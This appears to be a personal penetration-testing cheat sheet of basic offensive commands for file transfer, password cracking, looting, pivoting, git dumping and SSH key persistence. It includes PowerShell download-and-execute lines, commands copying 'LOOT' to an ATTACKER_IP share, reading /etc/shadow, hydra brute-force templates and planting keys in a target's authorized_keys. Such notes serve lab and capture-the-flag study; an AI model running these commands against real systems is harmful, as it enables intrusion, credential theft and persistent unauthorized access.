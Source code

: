 ```yaml
---
description: GOTTA STICK TO THE BASICS LAHH
---
```


# Fundamentals

## File Transfer

#### Python HTTP Server

`sudo python3 -m http.server 80`

#### Netcat&#x20;

```
nc -vl [port] > file [receiver]
nc -N [receiver_IP] [receiver_port] < file [sender]
cat [file] | nc [receiver_IP] [receiver_port] - Alternative
```

#### SCP

`scp [-r] <local_path> $user@$ip:/<remote_path> [Upload local to remote]`

`scp [-r] $user@$ip:/<remote_path> <local_path> [Download remote to local]`&#x20;

#### Powershell

{% code fullWidth="false" %}
```powershell
powershell (New-Object System.Net.WebClient).DownloadFile('http://IP/file', 'file')
download = IEX(New-Object Net.WebClient).downloadString('http://IP_ADDRESS/FILE')
Invoke-WebRequest http://domain.tld/script.ps1 -OutFile C:\Windows\Tasks\script.ps1
```
{% endcode %}

#### Certutil

```
certutil -urlcache -f [path_to_file] [file_name]
```

#### SMB

```bash
#sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword
#net use \\ATTACKER_IP\share /USER:user s3cureP@ssword
#copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe
#net use \\ATTACKER_IP\share /del

sudo python3 /opt/impacket/examples/smbserver.py [share_name] pwd -smb2support 
#Target
net view \10.10.14.3\
[CMD:] copy [LOOT] \[IP]\[share_name] 
[PowerShell:] Copy-Item [LOOT] \[share]\[LOOT]
```

## Password Cracking/Spraying

{% embed url="https://keydecryptor.com/" %}

{% embed url="https://github.com/openwall/john/blob/bleeding-jumbo/doc/DYNAMIC" %}
Crack salted passwords because hashcat just can't seem to get it
{% endembed %}

```
[file_ext]2john
john [--format=lm] --wordlist=/usr/share/wordlists/rockyou.txt [hash.txt]
unshadow /etc/passwd /etc/shadow > output.db

hydra [-L [userlist.txt] -P [passwordlist.txt]]/[-C [combineduserpassfile]] [IP] http[s]-post-form "/[endpoint]:log=^USER^&pwd=^PASS^[rest of POST body if exist]:F=[error message]"
-C uses file in [user:pass] format and reduces the number of combinations and reduces bruteforce time, eg. retrieve username passwords from a db
patato - brute force tool for various protocols incase hydra doesn't work out (legacy issues?)

.\hashcat64.exe -m [mode] hash.txt rockyou.txt -d 1
```

{% embed url="https://github.com/stealthsploit/OneRuleToRuleThemStill" %}

{% embed url="https://kevinovitz.github.io/TryHackMe_Writeups/passwordattacks/passwordattacks/#online-password-attacks" %}

## Looting

```
cat userlist.txt | tr ' ' '\n' | grep . [Replaces all whitespaces between values with newlines]
grep -r password . 2>/dev/null [searches for the value 'password' recursively across all files]
cut -d "delimiter" -f (field number 1,2 etc.) file.txt
```

## Pivoting & Port Forwarding

{% embed url="https://github.com/twelvesec/port-forwarding" %}

{% embed url="https://www.ivoidwarranties.tech/posts/pentesting-tuts/pivoting/proxychains/" %}

{% embed url="https://theyhack.me/Proxychains-Double-Pivoting/" %}

{% embed url="https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740" %}

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption><p>eg. port 3306 running on target but no mysql client, access from kali unless sum like mysqldump is there</p></figcaption></figure>

## Git

{% embed url="https://github.com/internetwache/GitTools" %}

```
https://github.com/arthaud/git-dumper
git status
git diff --cached [file]
git show <hash> [in logs]
git restore [file]
git log
git checkout [hash]
```

## SSH Keys

Every revshell as an actual user -> this is the play

```
KALI
ssh-keygen -t rsa
chmod 700 ~/.ssh; chmod 600 ~/.ssh/id_rsa [kali]

REMOTE
/home/user/.ssh$ echo "[id_rsa.pub value]" > authorized_keys
chmod 700 .ssh; chmod 700 .ssh/authorized_keys
```
